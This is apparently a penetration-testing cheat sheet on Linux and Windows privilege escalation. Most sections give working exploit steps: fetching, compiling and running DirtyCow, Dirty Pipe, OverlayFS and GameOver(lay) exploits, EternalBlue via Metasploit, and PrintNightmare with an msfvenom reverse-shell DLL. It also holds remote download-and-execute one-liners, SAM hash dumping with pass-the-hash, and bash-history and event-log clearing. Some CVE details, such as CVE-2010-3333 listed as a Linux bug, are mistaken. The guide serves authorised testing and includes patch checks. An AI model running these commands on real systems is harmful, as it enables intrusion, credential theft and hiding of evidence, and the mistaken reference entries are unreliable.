

# Kernel Exploit Privilege Escalation

> **Difficulty:** Advanced | **Category:** Privilege Escalation | **Platform:** Linux & Windows

---

## 1. Introduction

**Kernel exploits** target vulnerabilities in the operating system kernel itself — the lowest-level software layer that mediates access to hardware and arbitrates all system calls. The kernel runs at **Ring 0** (CPU privilege level 0), the highest privilege level available on x86/x86-64 processors. User-space processes run at **Ring 3**. A successful kernel exploit collapses that boundary, allowing an unprivileged process to execute arbitrary code in Ring 0 context — typically translating to full `root` or `SYSTEM` access.

### Why Kernel Exploits Are Powerful

- **No dependency on misconfigurations** — they work even on a hardened system where SUID binaries, sudo rules, and cron jobs are clean.
- **Direct privilege boundary crossing** — no need to pivot through service accounts or other users.
- **Often undetected** — many EDR products focus on user-space events; kernel-level activity may bypass them.
- **Universal impact** — a single CVE can affect thousands of kernel versions across distributions.

### When to Use Kernel Exploits (Last Resort)

Kernel exploits should be treated as a **last resort** in a penetration test. Exhaust these vectors first:

1. SUID/SGID binary abuse
2. Sudo misconfigurations (`sudo -l`)
3. Writable cron jobs or `PATH` hijacking
4. Weak service configurations / writable service binaries
5. Credentials in files / password reuse
6. Docker/LXC escapes
7. NFS no_root_squash
8. Capabilities abuse (`getcap -r / 2>/dev/null`)

Only after those are exhausted should kernel exploits be considered.

> **Warning:** Kernel exploits can cause **kernel panics**, **BSODs**, data corruption, or complete system instability. On production systems, this can mean unplanned downtime, data loss, and serious consequences for the client. **Always get written authorisation before using kernel exploits in scope.**

### Staging Considerations

- Identify the **exact kernel version, architecture, and distribution** before choosing an exploit.
- Build an **identical lab environment** (same distro, same kernel version, same architecture) and verify the exploit works cleanly before running it on the target.
- Prefer **snapshot/clone** of the target VM in lab scenarios.
- Use the **least dangerous PoC** available — some write a SUID shell instead of patching `/etc/passwd`, which is safer.
- Have a **rollback plan**: know who to call if the system goes down.

### Risk vs Reward Analysis

| Factor | Low Risk | High Risk |
|---|---|---|
| System type | Lab / dev VM | Production server |
| Kernel version specificity | Exact match | Close match only |
| PoC maturity | Well-tested, years old | Fresh 0-day PoC |
| System load | Idle | High I/O / many processes |
| Exploit mechanism | File overwrite | Memory corruption / race |
| Client approval | Written, explicit | Verbal / implied |

---

## 2. Linux Kernel Version Detection

Before running any exploit, fingerprint the kernel precisely. Architecture mismatches will cause crashes or silent failures.

```bash
# Full kernel info: version, hostname, kernel release, version string, machine arch, OS
uname -a

# Just the kernel release string (e.g., 5.15.0-76-generic)
uname -r

# Kernel version from procfs — includes build date and compiler
cat /proc/version

# Distribution name, version, ID
cat /etc/os-release

# All release files — catches CentOS, Debian, Alpine, etc.
cat /etc/*-release

# Architecture only
uname -m        # x86_64 / i686 / aarch64

# CPU info — useful to confirm 32 vs 64 bit and check for PAE
cat /proc/cpuinfo | grep -m1 "model name"

# Full system info summary
hostnamectl     # if systemd is present
```

### Interpreting the Kernel Version String

```
5 . 15 . 0 - 76 - generic
│   │    │   │    └── Flavour: generic, lowlatency, aws, azure, gke, etc.
│   │    │   └────── ABI / build number (local to distro)
│   │    └────────── Patch level
│   └─────────────── Minor version
└─────────────────── Major version
```

**Ubuntu LTS kernel lifecycle example:**

| Ubuntu Release | Default Kernel | ESM Support End |
|---|---|---|
| 16.04 LTS | 4.4 | April 2026 |
| 18.04 LTS | 4.15 | April 2028 |
| 20.04 LTS | 5.4 | April 2030 |
| 22.04 LTS | 5.15 | April 2032 |
| 24.04 LTS | 6.8 | April 2036 |

> **Note:** LTS kernels receive **security backports** — a vulnerability may be patched in `5.15.0-100` even though mainline received the fix in `5.16`. Always check whether the specific build number includes the backport, not just the major.minor version.

```bash
# Check if a specific CVE patch is present (example: DirtyCow)
grep -r "CVE-2016-5195" /usr/share/doc/ 2>/dev/null

# Check installed kernel headers (useful for compile targets)
dpkg -l | grep linux-headers
rpm -qa | grep kernel-headers
```

---

## 3. Linux Exploit Suggester

### linux-exploit-suggester (bash script)

```bash
# Download
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh

# Run against current system
./linux-exploit-suggester.sh

# Run against a specific kernel version (offline, on attacker machine)
./linux-exploit-suggester.sh --uname "3.13.0-24-generic"

# Show only highly probable exploits
./linux-exploit-suggester.sh | grep -A2 "\[+\]"

# Output with full details
./linux-exploit-suggester.sh --full
```

### linux-exploit-suggester-2 (Python)

```bash
# Download
wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.py

# Run with kernel version
python linux-exploit-suggester-2.py -k 3.13.0

# Example output line:
# [1] dirtycow
#     CVE-2016-5195
#     Source: https://www.exploit-db.com/exploits/40611
#     Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},ubuntu=10|12|14|16{kernel:2.6.(18|24|33)-*}
```

### Understanding Suggester Output

| Tag | Meaning |
|---|---|
| `[+] HIGHLY PROBABLE` | Kernel version strongly matches; exploit very likely works |
| `[+] PROBABLE` | Kernel version within range; may work depending on build flags |
| `[ ] less likely` | Version overlap but outside primary target range |
| `Tags: ubuntu=16` | Tested specifically on Ubuntu 16 |
| `ext-url:` | Additional reference or PoC URL |

> **Note:** Suggester output is a **starting point, not a guarantee**. Always cross-reference with the National Vulnerability Database (NVD) at `https://nvd.nist.gov` and Exploit-DB at `https://www.exploit-db.com` to verify patch status and PoC reliability.

```bash
# Search Exploit-DB from CLI with searchsploit (Kali)
searchsploit linux kernel 3.13
searchsploit --cve CVE-2016-5195
searchsploit -x linux/local/40611.c   # examine exploit source
searchsploit -m linux/local/40611.c   # copy to current directory
```

---

## 4. DirtyCow (CVE-2016-5195)

**CVSS Score:** 7.8 High | **Published:** October 2016 | **Patched:** kernel 4.8.3 (and backports)

**Affected kernels:** Linux 2.6.22 – 4.8.3 (released ~2007–2016, almost a decade of exposure)

### Technical Background

DirtyCow exploits a **race condition** in the kernel's copy-on-write (COW) mechanism inside `mm/gup.c` (`get_user_pages`). When a process attempts to write to a read-only memory-mapped file, the kernel should:

1. Detect the page is read-only.
2. Create a private copy of the page (COW).
3. Map the copy into the process address space.
4. Allow the write to the private copy.

The race condition allows an attacker to win a timing window and cause the kernel to write directly to the original read-only page instead of the private copy — effectively writing to any file on the filesystem that can be memory-mapped, **regardless of file permissions**.

### PoC Variant 1 — Overwrite `/etc/passwd`

```bash
# Download dirty.c (adds user "firefart" with supplied password)
wget https://www.exploit-db.com/download/40611 -O dirty.c

# Compile — requires pthreads and crypt
gcc -pthread dirty.c -o dirty -lcrypt

# Run — supply new root password
./dirty password123

# Authenticate as new root user
su firefart
# Password: password123
id
# uid=0(firefart) gid=0(root) groups=0(root)

# Restore /etc/passwd after test (backup is made by the exploit as /tmp/passwd.bak)
cp /tmp/passwd.bak /etc/passwd
```

### PoC Variant 2 — Create SUID Shell (cowroot)

```bash
# Download cowroot.c
wget https://www.exploit-db.com/download/40616 -O cowroot.c

# Compile
gcc -pthread cowroot.c -o cowroot

# Run — copies /bin/bash to /tmp/cowroot and sets SUID root
./cowroot

# Spawn root shell
/tmp/cowroot -p
id
# uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)

# Cleanup
rm /tmp/cowroot
```

> **Warning:** DirtyCow is known to cause **kernel panics** under heavy system load due to the memory race condition. Run during low-activity windows where possible. Test in lab first.

### Detection & Patching

- **auditd** rule to detect `/proc/self/mem` writes: `auditctl -w /proc/self/mem -p w`
- Kernel 4.8.3 introduced the fix; Ubuntu/Debian/RHEL all released backport patches within weeks.
- Check: `uname -r` — if ≥ 4.8.3 on mainline, or check distro advisory for backport status.

---

## 5. Dirty Pipe (CVE-2022-0847)

**CVSS Score:** 7.8 High | **Published:** March 2022 | **Patched:** 5.16.11 / 5.15.25 / 5.10.102

**Affected kernels:** Linux 5.8 – 5.16.10 (introduced with pipe buffer changes in 5.8)

### Technical Background

Dirty Pipe exploits an **uninitialized flag** (`PIPE_BUF_FLAG_CAN_MERGE`) in pipe buffer structures. When data is spliced from a file into a pipe, the kernel checks this flag to determine if new data can be merged into an existing pipe buffer entry. Because the flag is not properly cleared, an attacker can:

1. Create a pipe.
2. Fill it with arbitrary data to set the merge flag.
3. Drain the pipe.
4. Splice a target read-only file into the pipe.
5. Write to the pipe — the merge flag causes the write to overwrite the spliced file's **page cache** directly.

Unlike DirtyCow, this is **not a race condition** — it is deterministic and very reliable.

### PoC — Overwrite Read-Only File

```bash
# Download dirtypipe.c
wget https://haxx.in/files/dirtypipez.c -O dirtypipe.c

# Compile
gcc dirtypipe.c -o dirtypipe

# Usage: ./dirtypipe <target_file> <offset> "<data>"
# Overwrite /etc/passwd root entry to remove password requirement
./dirtypipe /etc/passwd 1 "root::0:0:root:/root:/bin/bash\n"

# Authenticate as root with no password
su root
id
# uid=0(root) gid=0(root)

# Restore /etc/passwd
./dirtypipe /etc/passwd 1 "root:x:0:0:root:/root:/bin/bash\n"
```

### PoC — Overwrite SUID Binary with Shellcode

```bash
# A more advanced variant patches an SUID binary (e.g., /usr/bin/su)
# with shellcode that spawns a root shell, executes it, then restores the binary.
# The exploit from https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
# automates this entirely:

gcc exploit-2.c -o exploit-2
./exploit-2 /usr/bin/sudo
# Spawns root shell, then restores the binary automatically
```

> **Note:** Dirty Pipe is considered **more dangerous** than DirtyCow because it is deterministic (no race condition), affects a wider range of file types, and can overwrite SUID binaries to execute arbitrary code as root without leaving permanent filesystem changes if the restoring step is used.

---

## 6. OverlayFS Exploits

**OverlayFS** is a union filesystem widely used in Docker, LXC, and snap packages. Several privilege escalation vulnerabilities have been found in the Linux kernel's OverlayFS implementation.

### CVE-2021-3493 (Ubuntu-Specific)

**Affected:** Ubuntu kernels prior to the April 2021 patch across 14.04, 16.04, 18.04, 20.04, 20.10

The Ubuntu kernel allowed **unprivileged user namespaces** combined with OverlayFS in a way the upstream kernel did not, enabling a non-root user to gain elevated privileges by creating a user namespace and mounting overlayfs to manipulate file capabilities.

```bash
# Download and compile
wget https://github.com/briskets/CVE-2021-3493/raw/main/exploit.c
gcc exploit.c -o exploit

# Execute
./exploit
# Output: # (root shell)
id
# uid=0(root) gid=0(root) groups=0(root)
```

### CVE-2023-0386 (File Capability Escalation)

**Affected:** Linux kernels before 6.2 (patched March 2023)

A flaw in OverlayFS allowed a user to copy a file with **elevated file capabilities** from a lower layer to the upper layer without proper permission checks. The attacker creates a FUSE filesystem or crafts an image with a setcap binary, mounts it via overlayfs, and the capability is preserved when copied to the upper layer.

```bash
# Clone PoC
git clone https://github.com/xkaneiki/CVE-2023-0386
cd CVE-2023-0386

# Build (requires fuse3-dev)
make all

# Run in two terminals:
# Terminal 1:
./fuse ./ovlcap/lower ./gc
# Terminal 2:
./exp

# Result: root shell via capability abuse
```

> **Note:** OverlayFS exploits are especially relevant in **container environments**. If you have shell access inside a Docker container running on a vulnerable host kernel, CVE-2021-3493 or CVE-2023-0386 may allow container escape + host root escalation in one step.

---

## 7. Notable Linux Kernel CVEs — Reference Table

| CVE | Year | Kernel Range | Type | Exploit Available | Notes |
|---|---|---|---|---|---|
| CVE-2010-3333 | 2010 | ≤ 2.6.36 | RDS socket priv esc | Yes (EDB) | Local → root via RDS protocol |
| CVE-2016-0728 | 2016 | 3.8 – 4.4 | Keyring refcount UAF | Yes (EDB #40003) | Overwrites credentials struct |
| CVE-2016-5195 | 2016 | 2.6.22 – 4.8.3 | COW race condition | Yes (DirtyCow) | Most famous Linux kernel CVE |
| CVE-2017-1000112 | 2017 | 4.4 – 4.13 | UFO packet memory corruption | Yes | Heap overflow in UDP Fragmentation Offload |
| CVE-2019-13272 | 2019 | ≤ 5.1.17 | `PTRACE_TRACEME` priv esc | Yes | Allows controlled ptrace attachment to root processes |
| CVE-2021-3493 | 2021 | Ubuntu specific | OverlayFS namespace bypass | Yes | Ubuntu 14.04–20.10 affected |
| CVE-2021-22555 | 2021 | 2.6.19 – 5.12 | Netfilter heap out-of-bounds write | Yes (GitHub) | Powerful; requires `CAP_NET_ADMIN` in some configs |
| CVE-2022-0847 | 2022 | 5.8 – 5.16.10 | Pipe buffer flag (Dirty Pipe) | Yes | Deterministic, very reliable |
| CVE-2022-2588 | 2022 | ≤ 5.19 | Route4 classifier use-after-free | Yes (GitHub) | Netfilter; requires `CAP_NET_ADMIN` |
| CVE-2023-0386 | 2023 | ≤ 6.1 | OverlayFS capability copy | Yes | File capability escalation |
| CVE-2023-2640 | 2023 | Ubuntu specific | GameOver(lay) OverlayFS | Yes | Ubuntu 22.04 / 23.04 affected |
| CVE-2023-32629 | 2023 | Ubuntu specific | GameOver(lay) OverlayFS | Yes | Companion to CVE-2023-2640 |

### GameOver(lay) — CVE-2023-2640 + CVE-2023-32629

Two chained OverlayFS vulnerabilities affecting Ubuntu kernels. An unprivileged user can create a file with arbitrary file capabilities in the lower layer of an overlayfs mount, copy it to the upper layer, and the capabilities persist.

```bash
# One-liner PoC (Ubuntu 22.04 / 23.04):
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; \
setcap cap_setuid+eip l/python3; \
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && \
touch m/*3 && u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"

# Full root shell version:
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; \
setcap cap_setuid+eip l/python3; \
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && \
touch m/*3 && u/python3 -c \
'import os;os.setuid(0);os.system(\"/bin/bash -i\")'"
```

---

## 8. Windows: Detecting Exploitable Versions

### Gather System and Patch Information

```cmd
:: Full system summary including OS version, build, and installed hotfixes
systeminfo

:: Targeted extraction — OS name, version, system type
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

:: List all installed hotfixes (patches / KBs)
wmic qfe list brief

:: Filter for specific KB
wmic qfe list brief | findstr /C:"KB3143141"

:: Alternative hotfix listing
dism /online /get-packages | findstr Package_for

:: PowerShell: list all KBs with install date
Get-HotFix | Sort-Object InstalledOn | Format-Table HotFixID, InstalledOn, Description
```

### Windows Build to Version Mapping

| Build Number | Version | End of Support |
|---|---|---|
| 7601 | Windows 7 SP1 / Server 2008 R2 | Jan 2020 (ESU available) |
| 9200 | Windows 8 / Server 2012 | Oct 2023 |
| 9600 | Windows 8.1 / Server 2012 R2 | Oct 2023 |
| 10240 | Windows 10 1507 | May 2017 |
| 14393 | Windows 10 1607 / Server 2016 | Oct 2026 |
| 17763 | Windows 10 1809 / Server 2019 | Jan 2029 |
| 19041 | Windows 10 2004 | Dec 2021 |
| 22000 | Windows 11 21H2 | Oct 2023 |
| 20348 | Windows Server 2022 | Oct 2031 |

```cmd
:: Quick build number check
ver

:: More detail
(Get-WmiObject Win32_OperatingSystem).BuildNumber
```

---

## 9. WES-NG — Windows Exploit Suggester Next Gen

WES-NG compares your `systeminfo` output against a database of CVEs and their required patches (KBs) to identify missing patches.

```bash
# ---- On the target machine ----
systeminfo > C:\Temp\systeminfo.txt

# Transfer to attacker machine (SMB, HTTP, etc.)
# Attacker machine: python3 -m http.server 8080
# Target: certutil -urlcache -f http://10.10.10.1:8080/systeminfo.txt C:\Temp\si.txt

# ---- On the attacker machine ----
# Install / clone WES-NG
git clone https://github.com/bitsadmin/wesng.git
cd wesng

# Update the CVE database (requires internet)
python wes.py --update

# Basic scan
python wes.py systeminfo.txt

# Filter: only Elevation of Privilege, only exploits with known PoC
python wes.py systeminfo.txt -i "Elevation of Privilege" --exploits-only

# Exclude non-exploitable categories
python wes.py systeminfo.txt -e

# Save output to file
python wes.py systeminfo.txt -o results.csv
```

### Interpreting WES-NG Output

| Column | Meaning |
|---|---|
| Date | CVE publication date |
| CVE | CVE identifier |
| KB | Knowledge Base article (patch) that fixes it |
| Title | Vulnerability title |
| Affected product | OS version affected |
| Severity | Critical / Important / Moderate |
| Exploit | `*` = public exploit exists |

> **Note:** Cross-reference WES-NG findings with Exploit-DB (`searchsploit`) and GitHub to find working PoC code. Not every missing KB equals a working exploit — some require specific preconditions.

---

## 10. MS16-032 — Secondary Logon Service

**Affected:** Windows 7 – Windows 10, Windows Server 2008 – 2012 R2 (missing KB3143141)
**CVE:** CVE-2016-0099 | **Type:** Local Privilege Escalation | **Requirement:** Interactive logon or RDP session

The Secondary Logon Service (`seclogon`) has a race condition in handle duplication that allows a low-privileged process to inject a thread into a SYSTEM process.

### PowerShell Exploitation

```powershell
# Download Invoke-MS16032 (Empire / PowerSploit module)
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.1/Invoke-MS16032.ps1')
Invoke-MS16032

# Specify a command to run as SYSTEM instead of spawning a shell
Invoke-MS16032 -Command "net user hacker Password123! /add"
Invoke-MS16032 -Command "net localgroup administrators hacker /add"

# Bypass execution policy and run inline
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.1/Invoke-MS16032.ps1'); Invoke-MS16032"
```

### Check if Vulnerable

```cmd
:: Check for KB3143141
wmic qfe list brief | findstr "3143141"
:: No output = patch missing = potentially vulnerable

:: Verify OS in range
systeminfo | findstr /B "OS Version"
:: Windows 10 Version 1511 and below = vulnerable if KB missing
```

> **Warning:** MS16-032 requires the target to **not** have the patch and requires the exploit to run from a session with an interactive logon token (not a pure service context). It may fail in some restricted environments.

---

## 11. MS17-010 / EternalBlue

**CVE:** CVE-2017-0144 | **Affected:** Windows XP – Server 2016 (SMBv1) | **Type:** Remote Code Execution → SYSTEM

EternalBlue exploits a buffer overflow in the SMBv1 `Transaction2` request handler. Originally developed by the NSA, leaked by the Shadow Brokers in April 2017, and weaponised in the **WannaCry** ransomware attack.

> **Note:** EternalBlue is technically an **RCE** vulnerability, not a local privilege escalation — however it directly grants a `SYSTEM` shell, making it the most impactful single exploit in Windows history for pentesters. It is frequently encountered on internal networks where SMB patching has been neglected.

### Via Metasploit

```bash
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 10.10.10.1
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

# Post-exploitation
meterpreter> getuid
# Server username: NT AUTHORITY\SYSTEM
meterpreter> getsystem
meterpreter> hashdump
```

### Manual Exploit

```bash
# Clone AutoBlue (manual Python exploit with no Metasploit dependency)
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010

# Check if target is vulnerable
python eternal_checker.py 192.168.1.100

# Generate shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# Answer prompts: LHOST, LPORT, payload type

# Execute
python eternalblue_exploit7.py 192.168.1.100 shellcode/sc_x64.bin
```

### Detection / Mitigation Check

```powershell
# Check if SMBv1 is enabled
Get-SmbServerConfiguration | Select EnableSMB1Protocol

# Disable SMBv1
Set-SmbServerConfiguration -EnableSMB1Protocol $false
```

---

## 12. PrintNightmare (CVE-2021-1675 / CVE-2021-34527)

**CVSS:** 8.8 (RCE) / 7.8 (LPE) | **Affected:** Windows Server 2008–2019, Windows 7–11

The Windows Print Spooler service (`spoolsv.exe`) allows authenticated users to install printer drivers. The `RpcAddPrinterDriverEx()` function can be abused to load an **arbitrary DLL** as SYSTEM.

### Local Privilege Escalation Variant

```powershell
# Import the module (from https://github.com/calebstewart/CVE-2021-1675)
Import-Module .\CVE-2021-1675.ps1

# Add a new local administrator account
Invoke-Nightmare -NewUser "hacker" -NewPassword "Password123!" -DriverName "PrintMe"

# Verify
net localgroup administrators
# Output includes: hacker

# Log in with new admin account
runas /user:hacker cmd.exe
```

### Remote Code Execution Variant

```bash
# On attacker machine: set up SMB share with malicious DLL
# Using Impacket's smbserver
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share ./

# malicious.dll spawns reverse shell (msfvenom):
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=9001 -f dll -o malicious.dll

# From target (authenticated low-priv user):
# The RPC call loads the DLL from the UNC path as SYSTEM
python3 CVE-2021-1675.py hackeruser:password@192.168.1.100 '\\10.10.10.1\share\malicious.dll'
```

### Check if Vulnerable

```powershell
# Check if Print Spooler is running
Get-Service Spooler

# Stop and disable if not needed
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
```

> **Warning:** PrintNightmare has multiple CVE identifiers because the initial patch (CVE-2021-1675) was incomplete. CVE-2021-34527 is the broader, more dangerous variant. Even fully patched systems may be re-exploitable if the `Point and Print` policy is misconfigured.

---

## 13. HiveNightmare / SeriousSAM (CVE-2021-36934)

**CVSS:** 7.8 High | **Affected:** Windows 10 1809+ and Windows 11 | **Published:** July 2021

A misconfigured **Volume Shadow Copy** and overly permissive ACLs on the registry hive files allow non-administrator users to read the SAM, SYSTEM, and SECURITY registry hives — which contain **password hashes for all local accounts**.

### Checking Permissions

```cmd
:: Check ACL on SAM hive
icacls C:\Windows\System32\config\sam
:: Vulnerable output includes: BUILTIN\Users:(I)(RX)

:: Also check SYSTEM and SECURITY
icacls C:\Windows\System32\config\system
icacls C:\Windows\System32\config\security
```

### Extracting Hashes as Non-Admin

```cmd
:: Save hive copies using reg.exe (works because shadow copies preserve the ACL vuln)
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
reg save hklm\security C:\Temp\security

:: List available shadow copies (may contain vulnerable copies)
vssadmin list shadows

:: Copy from shadow copy (if direct reg save is blocked)
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\sam C:\Temp\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\system C:\Temp\system
```

### Extracting Hashes on Attacker Machine

```bash
# Transfer sam and system files to attacker machine
# Use impacket-secretsdump
impacket-secretsdump -sam sam -system system LOCAL

# Example output:
# [*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
# [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

# Pass-the-Hash with obtained NTLM hash
evil-winrm -i 192.168.1.100 -u Administrator -H "31d6cfe0d16ae931b73c59d7e0c089c0"
crackmapexec smb 192.168.1.100 -u Administrator -H "31d6cfe0d16ae931b73c59d7e0c089c0"

# Or crack with hashcat
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

> **Note:** This vulnerability is effectively a **free hash dump** on unpatched Windows 10 1809+ systems. Combined with Pass-the-Hash, it can achieve administrative access without any code execution exploit.

---

## 14. Transferring Kernel Exploits to Target

Getting the exploit binary or source to the target is often its own challenge.

### Linux Transfer Methods

```bash
# Attacker: start HTTP server
python3 -m http.server 8080
python2 -m SimpleHTTPServer 8080

# Target: download with wget
wget http://10.10.10.1:8080/exploit -O /tmp/exploit
chmod +x /tmp/exploit

# Target: download with curl
curl http://10.10.10.1:8080/exploit -o /tmp/exploit
curl -s http://10.10.10.1:8080/exploit | bash    # dangerous but quick

# SCP (if SSH key available)
scp exploit user@192.168.1.50:/tmp/exploit

# Netcat file transfer
# Receiver:
nc -lvnp 9001 > exploit
# Sender:
nc 192.168.1.50 9001 < exploit

# Base64 paste transfer (when no network tools available)
# Attacker:
base64 exploit > exploit.b64
cat exploit.b64   # copy output

# Target: paste and decode
echo "BASE64DATA..." | base64 -d > /tmp/exploit
chmod +x /tmp/exploit
```

### Windows Transfer Methods

```powershell
# PowerShell WebClient (most common)
(New-Object Net.WebClient).DownloadFile('http://10.10.10.1/exploit.exe', 'C:\Temp\exploit.exe')

# Invoke-WebRequest (PowerShell 3+)
Invoke-WebRequest -Uri 'http://10.10.10.1/exploit.exe' -OutFile 'C:\Temp\exploit.exe'

# PowerShell one-liner with execution
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.1/exploit.ps1')

# Bypass SSL errors
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
(New-Object Net.WebClient).DownloadFile('https://10.10.10.1/exploit.exe', 'C:\Temp\exploit.exe')
```

```cmd
:: certutil (often proxy-friendly, available on older Windows)
certutil -urlcache -split -f http://10.10.10.1/exploit.exe C:\Temp\exploit.exe

:: bitsadmin (background transfer, available since XP)
bitsadmin /transfer job /download /priority high http://10.10.10.1/exploit.exe C:\Temp\exploit.exe

:: SMB (if attacker can host SMB share)
:: Attacker: impacket-smbserver share . -smb2support
copy \\10.10.10.1\share\exploit.exe C:\Temp\exploit.exe

:: xcopy from UNC path directly
xcopy \\10.10.10.1\share\exploit.exe C:\Temp\
```

```bash
# Base64 encode on attacker
base64 -w 0 exploit.exe > exploit.b64
```

```powershell
# Base64 decode on Windows target
$b64 = "AAAABASE64DATA..."
$bytes = [Convert]::FromBase64String($b64)
[IO.File]::WriteAllBytes("C:\Temp\exploit.exe", $bytes)
```

> **Note:** When transferring exploits, use **`/tmp`** on Linux (usually `noexec` is **not** set) or `C:\Temp` / `C:\Windows\Tasks` on Windows. Avoid directories with AV scanning hooks. Check mount options first: `mount | grep /tmp`.

---

## 15. Kernel Exploit Risks and Mitigation Strategies

### Operational Risks

| Risk | Likelihood | Impact | Mitigation |
|---|---|---|---|
| Kernel panic / BSOD | Medium | High (downtime) | Test in identical lab first |
| System data corruption | Low | Critical | Snapshot before execution |
| Exploit leaves artefacts | High | Medium | Use memory-only payloads where possible |
| EDR/AV detection | Medium | Medium | Test detection bypass in lab |
| Exploit fails silently | High | Low | Verify success before cleanup |
| System crash during exploit | Medium | High | Inform client; have rollback plan |

### Pre-Engagement Checklist

```
[ ] Written authorisation specifically permitting kernel exploit usage
[ ] Exact kernel version confirmed (uname -a / systeminfo)
[ ] Architecture confirmed (x86_64, i386, ARM, etc.)
[ ] Lab environment built with identical OS + kernel version
[ ] Exploit compiled and tested successfully in lab
[ ] Backup / snapshot of target system if possible
[ ] Maintenance window agreed with client if production system
[ ] Rollback procedure documented
[ ] Incident response contact identified in case of crash
[ ] Exploit artefact cleanup procedure prepared
```

### Post-Exploitation Cleanup

```bash
# Linux: remove compiled exploit binary and source
rm -f /tmp/exploit /tmp/exploit.c /tmp/dirty /tmp/dirty.c
rm -f /tmp/cowroot /tmp/dirtypipe

# Restore modified files (DirtyCow passwd overwrite)
cp /tmp/passwd.bak /etc/passwd

# Check bash history (may need to clear if testing detected)
# Note: clearing history is detectable — discuss with client
history -c
cat /dev/null > ~/.bash_history

# Windows: remove transferred files
del C:\Temp\exploit.exe
del C:\Temp\systeminfo.txt
del C:\Temp\sam C:\Temp\system C:\Temp\security

# Windows: clear event logs (only if explicitly in scope)
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
```

> **Warning:** **Never** clear logs or remove artefacts without explicit client authorisation — log clearing itself is a finding and evidence may be needed for the report. Document every action taken during the engagement, regardless of whether artefact cleanup is in scope.

---

## 16. Kernel Exploit Selection Flowchart



---

## 17. Linux Kernel Exploit Compilation Reference

Many kernel exploits are distributed as C source and require specific compilation flags.

```bash
# Standard compilation (most exploits)
gcc exploit.c -o exploit

# With pthreads (required for race condition exploits like DirtyCow)
gcc -pthread exploit.c -o exploit

# With crypt library (password hashing)
gcc -pthread exploit.c -o exploit -lcrypt

# 32-bit binary on 64-bit system (for 32-bit target or specific exploits)
gcc -m32 exploit.c -o exploit -lc

# Suppress warnings (sometimes needed for old exploit code)
gcc -w exploit.c -o exploit

# Optimisation disabled (sometimes needed for timing-sensitive exploits)
gcc -O0 exploit.c -o exploit

# Static compilation (no shared library dependencies — useful if target lacks libs)
gcc -static exploit.c -o exploit

# Check binary architecture
file exploit
# exploit: ELF 64-bit LSB executable, x86-64 ...

# If the target has no compiler, cross-compile on attacker:
sudo apt install gcc-multilib   # for 32-bit cross-compile support
```

---

## 18. Quick Reference — Key Commands Summary

### Linux Recon

```bash
uname -a                                      # Full kernel info
cat /proc/version                             # Kernel build string
cat /etc/os-release                           # Distro info
./linux-exploit-suggester.sh                  # Automated suggester
searchsploit linux kernel $(uname -r)         # Exploit-DB search
find / -perm -4000 -type f 2>/dev/null        # SUID files (check other vectors first)
getcap -r / 2>/dev/null                       # Capabilities
```

### Windows Recon

```cmd
systeminfo                                    :: Full system info
systeminfo | findstr /B "OS Name" "OS Version" "System Type"
wmic qfe list brief                           :: Installed patches
wmic qfe list brief | findstr "3143141"       :: Check specific KB
python wes.py systeminfo.txt --exploits-only  :: WES-NG (attacker side)
```

### Common CVE → Fix Mapping

| CVE | Fix KB (Windows) / Kernel Version (Linux) |
|---|---|
| CVE-2016-5195 (DirtyCow) | Linux ≥ 4.8.3 or distro backport |
| CVE-2022-0847 (DirtyPipe) | Linux ≥ 5.16.11 / 5.15.25 / 5.10.102 |
| CVE-2021-3493 | Ubuntu USN-4949-1 |
| CVE-2023-32629 | Ubuntu USN-6250-1 |
| MS16-032 | KB3143141 |
| MS17-010 (EternalBlue) | KB4012212 / KB4012213 |
